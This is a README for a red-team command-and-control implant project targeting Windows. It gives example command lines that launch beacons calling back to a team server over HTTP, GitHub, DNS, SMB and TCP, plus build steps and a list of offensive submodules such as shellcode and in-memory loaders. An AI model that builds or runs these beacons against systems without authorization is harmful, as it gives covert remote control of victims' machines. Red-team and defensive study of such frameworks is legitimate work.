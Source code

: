 # Exploration C2 Implant

## What it is

Exploration is a rudimentary redteam Command and Control framework.  
This repository contain the Beacon in C++ to target windows.  
The TeamServer and Client can be found in [C2TeamServer](https://github.com/maxDcb/C2TeamServer).  

This project contains multiple beacon communicating with the TeamServer thought different means, here is some example:

```
# HTTP/HTTPS
BeaconHttp.exe IP_TEAMSERVER PORT_LISTENER http/https
BeaconHttp.exe 10.10.10.10 8443 https
BeaconHttp.exe 10.10.10.10 8080 http

# Github
BeaconGithub.exe user/project TOKEN
BeaconGithub.exe maxDcb/C2Implant ghp_dsfgdfhdf5554456g4fdg465...

# Dns
BeaconDns.exe DNS_SERVER DOM_TEAMSERVER
BeaconDns.exe 8.8.8.8 bac.superdomain.com

# Smb
BeaconSmb.exe PIPE_NAME
BeaconSmb.exe pipename2

# Tcp
BeaconTcp.exe IP_LISTENER PORT_LISTENER
BeaconTcp.exe 127.0.0.1 4444
```

## Build 

### Sumbodule & External Projects:  

* [Donut](https://github.com/TheWover/donut): Creat shellcode from PE files.  
* [CoffLoader](https://github.com/trustedsec/COFFLoader): Run object files from [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF).
* [MemoryModule](https://github.com/fancycode/MemoryModule): Load DLL at runtime.
* [UnmanagedPowerShell](https://github.com/leechristensen/UnmanagedPowerShell): Powershell for unmanager code.
* [cpp-base64](https://github.com/ReneNyffenegger/cpp-base64): base64.
* [json](https://github.com/nlohmann/json): json parser.

### Build the Windows Beacons and Modules

* https://chocolatey.org/install
* choco install cmake --pre 

git submodule update --init   
mkdir buildWindows  
cd buildWindows 


#### Windows x64

with "x64 Native Tools Command Prompt for VS":  
cmake  -G "Visual Studio 17 2022" ..   
msbuild .\C2Implant.sln /property:Configuration=Release -m  
or  
compile the generated C2.sln in release with Visual studio (config Runtime Library Multi-threaded (/MT) & Release)   


#### Windows x86

cmake  -G "Visual Studio 17 2022" -A "Win32" ..   
msbuild .\C2Implant.sln /property:Configuration=Release /p:Platform=Win32 -m  


#### Production

Beacons are in: "Release\Beacons"  
Modules DLL in: "Release\Modules"   




